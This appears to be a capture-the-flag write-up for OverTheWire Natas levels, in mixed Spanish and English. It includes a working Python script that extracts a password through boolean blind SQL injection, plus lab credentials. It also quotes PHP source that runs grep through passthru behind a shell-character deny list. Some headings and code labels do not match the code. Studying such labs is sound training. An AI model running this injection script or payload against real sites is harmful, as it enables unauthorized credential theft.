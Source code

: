 Como estamos delante de una Blind SQLi tenemos que buscar el password por fuerza bruta.

This level is **Boolean Based on Blind SQL Injection**. so we can solve this with SQL query. **“username”: ‘natas16" AND password LIKE BINARY “‘ + “”** We can put this query in a python script and brute force to get the password.

Usamos el script:

```php
import requests
import re

characters = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

username = "natas15"
password = "SdqIqBsFcz3yotlNYErZSZwblkm0lrvx"

url = "<http://natas15.natas.labs.overthewire.org>"

session = requests.Session()

current_password = list()

while(True):
 for character in characters:
     print("Trying with: " + "".join(current_password) + character)
     response = session.post(url, data={"username": 'natas16" AND password LIKE BINARY "' + "".join(current_password) + character + '%" #'},auth=(username, password))
     if "This user exists." in response.text:
      current_password.append(character)
      break
 if len(current_password) == 32:
  break
```

Output: hPkjKYviLQctEW33QmuXL6eDVfMW4sGo

## Level 17

```php
Output:

<pre>

<?

$key = "";

if(array_key_exists("needle", $_REQUEST)) {

$key = $_REQUEST["needle"];

}

if($key != "") {

if(preg_match('/[;|&`\\'"]/',$key)) {

print "Input contains an illegal character!";

} else {

passthru("grep -i \\"$key\\" dictionary.txt");

}

```